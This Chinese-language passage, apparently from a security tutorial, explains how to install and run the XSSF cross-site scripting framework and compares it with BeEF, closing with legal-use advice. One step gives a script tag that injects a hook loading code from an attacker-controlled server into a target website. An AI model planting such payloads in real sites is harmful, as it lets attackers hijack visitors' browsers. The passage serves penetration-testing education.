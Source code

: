 - **报告生成**：
  - 能够生成详细的攻击报告，记录攻击过程和结果。

**使用场景**：

- **安全研究**：
  - 用于研究 XSS 攻击技术，开发新的攻击方法和工具。

- **渗透测试**：
  - 在渗透测试中，XSSF 可以帮助测试人员自动化执行 XSS 攻击，提高效率。

**安装与使用**：

1. **安装 XSSF**：
   - 可以通过 GitHub 仓库安装：
     ```bash
     git clone https://github.com/fgeekorg/XSSF.git
     cd XSSF
     mvn package
     ```
   - 或者下载预编译的二进制文件。

2. **启动 XSSF**：
   - 启动 XSSF 服务器：
     ```bash
     ./xssf-server
     ```
   - 访问管理界面：
     ```
     http://localhost:8080/xssf/
     ```

3. **注入 XSSF Payload**：
   - 将 XSSF Payload 注入到目标网站：
     ```html
     <script src="http://your-xssf-server-ip:8080/xssf"></script>
     ```

4. **执行攻击**：
   - 在 XSSF 管理界面中，配置并执行各种攻击命令。

### 总结

BeEF 和 XSSF 都是强大的 XSS 攻击框架，能够帮助安全研究人员深入利用 XSS 漏洞。然而，这些工具也具有潜在的危险性，滥用它们可能会导致严重的法律后果。因此，在使用这些工具时，务必遵守相关法律法规和道德规范，确保测试行为合法合规。

**安全提示**：

- **合法使用**：
  - 仅在获得授权的情况下进行安全测试和渗透测试。

- **保护数据**：
  - 避免在测试过程中泄露敏感信息，确保数据安全。

- **持续学习**：
  - 不断学习最新的安全技术和防护措施，提高自身的安全意识和技能。
